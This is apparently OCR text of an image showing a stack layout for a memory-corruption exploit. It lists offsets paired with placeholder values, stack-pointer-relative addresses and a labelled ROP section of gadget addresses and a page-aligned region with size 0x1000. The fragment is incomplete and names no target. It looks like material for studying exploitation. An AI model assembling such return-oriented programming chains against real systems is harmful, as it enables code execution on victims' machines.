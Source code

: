 0xC

0xcodedbad

0x10

sp_addr + 24

0x14

16

0x18

sp_addr + 32

0x1C

0xf00dbabe

0x20

0xcode0000 + 0x0

0x24

0xcode0000 + 0x4

0x28

0xcode0000 + 0x8

0x2C

new_pc{}

0x30

0xf0f00000+x1

…

…

0x4C, ROP+0x0

sp_addr + 0x40

ROP+0x4

0xb0002a98{}

ROP+0x8

0xb00038b2 + 1{}

ROP+0xC

sp_addr & 0xFFFFF000

ROP+0x10

0x1000

ROP+0x14
